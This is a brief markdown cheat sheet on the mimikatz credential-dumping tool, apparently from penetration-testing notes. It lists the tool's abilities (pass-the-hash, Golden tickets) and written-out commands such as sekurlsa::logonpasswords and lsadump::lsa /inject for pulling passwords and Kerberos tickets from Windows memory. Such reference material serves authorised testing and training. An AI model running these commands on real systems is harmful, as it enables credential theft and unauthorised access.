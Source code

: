 # mimikatz

## Overview

 Extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. mimikatz can also perform pass-the-hash, pass-the-ticket or build Golden tickets.


## Implementations

Original tool for windows:

    https://github.com/ParrotSec/mimikatz

Impacket collection of python tools implements mimikatz.py


## Usage

It is always a good idea to type "log" before running any commands in "Mimikatz" this way all command output will put output to a ".txt" file. 

    sekurlsa::minidump <process_dump>   loads process dump
    sekurlsa::logonpasswords    Searches for passwords


To do a lsa dump


    privilege::debug
    lsadump::lsa /inject

or

    privilege::debug
    sekurlsa::logonpasswords

## Tips

Convert base64 tickets to be cracked in linux hosts:

    echo "<base64 blob>" | tr -d \\n
